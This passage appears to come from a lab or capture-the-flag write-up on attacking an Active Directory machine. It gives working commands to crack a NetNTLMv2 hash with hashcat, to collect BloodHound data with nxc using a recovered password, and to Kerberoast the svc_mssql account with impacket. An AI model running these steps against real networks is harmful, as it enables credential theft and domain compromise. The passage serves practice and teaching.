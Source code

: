 ![](../img/28.png)

I wanted to try to relay the hash, but then I noticed that smb signing is enabled so the only thing I can do is to try to crack it.

Crack the hash using `hashcat`:
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
The user flag is inside `transfer/julia.wong/local.txt`.

Retrieve data for bloodhound through `nxc`:
```
nxc ldap 10.10.99.155 -u julia.wong -p 'Computer1' --bloodhound -c All --dns-server 10.10.99.155
```
Remember that port 1433 was present and we know there is a user called `svc_mssql`. 

I tried to look for kerberoastable users, and we could perform kerberoast for `svc_mssql`.
```
impacket-GetUserSPNs -request breach.vl/julia.wong:Computer1 -dc-ip 10.10.99.155
```